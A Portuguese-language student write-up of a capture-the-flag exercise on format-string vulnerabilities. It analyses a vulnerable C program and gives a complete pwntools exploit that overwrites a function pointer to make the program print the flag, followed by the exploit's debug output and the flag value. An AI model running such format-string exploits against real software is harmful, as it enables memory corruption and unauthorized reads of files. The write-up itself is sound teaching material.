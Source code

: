 # CTF Semana #6 (Format Strings)

## Questões iniciais
1. Existe algum ficheiro que é aberto e lido pelo programa?
Sim, o programa lê um ficheiro através da função readtxt. O código que faz isso é:
```
sprintf(command,"cat %s.txt\0",arg);
system(command);
```
Aqui, o nome do ficheiro é passado para o comando cat no sistema. Este comando tenta ler o conteúdo do ficheiro especificado.

2. Existe alguma forma de controlar o ficheiro que é aberto?
Sim, o nome do ficheiro a ser lido é controlado pela entrada do utilizador. O valor fornecido pelo utilizador é passado para a função readtxt através da variável buffer, que é preenchida através de scanf:
`scanf("%99s", &buffer);`
O input do utilizador será então usado como parte do nome do ficheiro. Isso significa que, ao fornecer o valor correto, podemos substituir rules.txt por flag.txt e fazer o programa ler o conteúdo da flag.

3. Existe alguma format string? Se sim, em que é vulnerável e o que podes fazer?
Sim, o código contém uma vulnerabilidade de format string na seguinte linha:
`printf(buffer);`
Aqui, o conteúdo da variável buffer é passado diretamente para printf, o que nos permite fornecer uma string com especificadores de formato como %x ou %n. Isto pode levar à leitura ou escrita arbitrária na pilha de memória. <br>

**Vulnerabilidade:** A ausência de validação do conteúdo de buffer permite que um atacante explore a pilha de memória. Por exemplo: <br>
**Leitura de valores:** Podemos usar %x ou %p para ler valores de memória na pilha.  <br>
**Escrita de valores:** Usando %n, podemos escrever valores na memória, o que pode ser utilizado para sobrescrever variáveis ou alterar o fluxo de execução do programa.


## Exploit

O nosso ficheiro exploit-template.py ficou assim e acrescentamos comentários explicativos:

```
from pwn import *
import re # Biblioteca para trabalhar com expressões regulares


context(arch='i386', log_level='debug')  # Define arquitetura (32 bits) e nível de log

# Função que envia um payload e retorna a resposta
def exec_fmt(payload):
    r = remote('ctf-fsi.fe.up.pt', 4005)  # Conecta ao serviço remoto
    r.sendline(payload) # Envia o payload
    response = r.recvall() # Recebe toda a saída do programa
    r.close() # Fecha a conexão
    return response

# Conecta ao serviço remoto
r = remote('ctf-fsi.fe.up.pt', 4005)

# Recebe a mensagem inicial do programa
output = r.recvuntil(b"flag:\n")
print("Output recebido:", output)

# Procura pelo endereço do ponteiro `fun` na saída usando regex
x = re.search(r"hint: ([a-f0-9]{8})", output.decode("utf-8"))
if x:
    target_adress = int(x.group(1), 16) # Converte o endereço encontrado para inteiro
    print(f"Endereço obtido: {target_adress}:{hex(target_adress)}")

    # Endereço da função readtxt (extraído do binário usando ferramentas como gdb)
    addr_readtxt = 0x080497a5

    # Argumento que será passado à função para substituir "rules" por "flag"
    flag = b'./flag**'

    # Utiliza a ferramenta `FmtStr` para calcular o offset e gerar o payload
    autofmt = FmtStr(exec_fmt)
    offset = autofmt.offset  # Descobre o offset correto
    payload = flag + fmtstr_payload(offset + int(len(flag) / 4), {target_adress: addr_readtxt}, numbwritten=len(flag)) # Ajusta o offset considerando o tamanho do argumento, define a sobrescrita "fun = addr_readtxt" e considera bytes já escritos pelo argumento.

    # Envia o payload gerado
    r.sendline(payload)
    buf = r.recvall().decode(errors="backslashreplace") # Recebe e decodifica a resposta
    print(buf)
else:
    # Caso o endereço do ponteiro "fun" não seja encontrado
    print("Erro a obter endereço")
r.close() # Fecha a conexão
```

Isto permitiu-nos obter o valor do endereço de hint automaticamente e gerar um payload dinamico consoante os endereços. <br>
Assim, correndo o script o output que obtemos é:
```
[+] Opening connection to ctf-fsi.fe.up.pt on port 4005: Done
[DEBUG] Received 0x68 bytes:
    b'Read the rules.\n'
    b'Running command cat rules.txt\n'
    b'I will give you an hint: ffe9adf0\n'
    b'Try to unlock the flag:\n'
Output recebido: b'Read the rules.\nRunning command cat rules.txt\nI will give you an hint: ffe9adf0\nTry to unlock the flag:\n'
Endereço obtido: 4293504496:0xffe9adf0
[+] Opening connection to ctf-fsi.fe.up.pt on port 4005: Done
[DEBUG] Sent 0x21 bytes:
    b'aaaabaaacaaadaaaeaaaSTART%1$pEND\n'
[+] Receiving all data: Done (218B)
[DEBUG] Received 0xda bytes:
    b'Read the rules.\n'
    b'Running command cat rules.txt\n'
    b'I will give you an hint: ffc134d0\n'
    b'Try to unlock the flag:\n'
    b'aaaabaaacaaadaaaeaaaSTART0x61616161ENDCalling function at 804980c 134518796\n'
    b'Echo aaaabaaacaaadaaaeaaaSTART%1$pEND\n'
[*] Closed connection to ctf-fsi.fe.up.pt port 4005
[*] Found format string offset: 1
[DEBUG] Sent 0x35 bytes:
    00000000  2e 2f 66 6c  61 67 2a 2a  25 31 31 24  68 68 6e 25  │./fl│ag**│%11$│hhn%│
    00000010  31 35 37 63  25 31 32 24  68 68 6e 25  31 30 31 30  │157c│%12$│hhn%│1010│
    00000020  63 25 31 33  24 68 6e 61  f3 ad e9 ff  f0 ad e9 ff  │c%13│$hna│····│····│
    00000030  f1 ad e9 ff  0a                                     │····│·│
    00000035
[+] Receiving all data: Done (1.27KB)
[DEBUG] Received 0x2a bytes:
    b'flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}\n'
[DEBUG] Received 0x4e9 bytes:
    00000000  2e 2f 66 6c  61 67 2a 2a  20 20 20 20  20 20 20 20  │./fl│ag**│    │    │
    00000010  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000000a0  20 20 20 20  2e 20 20 20  20 20 20 20  20 20 20 20  │    │.   │    │    │
    000000b0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000490  20 20 20 20  20 20 61 61  f3 ad e9 ff  f0 ad e9 ff  │    │  aa│····│····│
    000004a0  f1 ad e9 ff  43 61 6c 6c  69 6e 67 20  66 75 6e 63  │····│Call│ing │func│
    000004b0  74 69 6f 6e  20 61 74 20  38 30 34 39  37 61 35 20  │tion│ at │8049│7a5 │
    000004c0  31 33 34 35  31 38 36 39  33 0a 52 75  6e 6e 69 6e  │1345│1869│3·Ru│nnin│
    000004d0  67 20 63 6f  6d 6d 61 6e  64 20 63 61  74 20 2e 2f  │g co│mman│d ca│t ./│
    000004e0  66 6c 61 67  2e 74 78 74  0a                        │flag│.txt│·│
    000004e9
[*] Closed connection to ctf-fsi.fe.up.pt port 4005
flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}
./flag**                                                                                                                                                            .                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 aa\xf3\xad\xe9\xff\xf0\xad\xe9\xff\xf1\xad\xe9\xffCalling function at 80497a5 134518693
Running command cat ./flag.txt
```

No fim, extraímos a flag{L34k1ng_Fl4g_0ff_Th3_St4ck_44789C2D}.
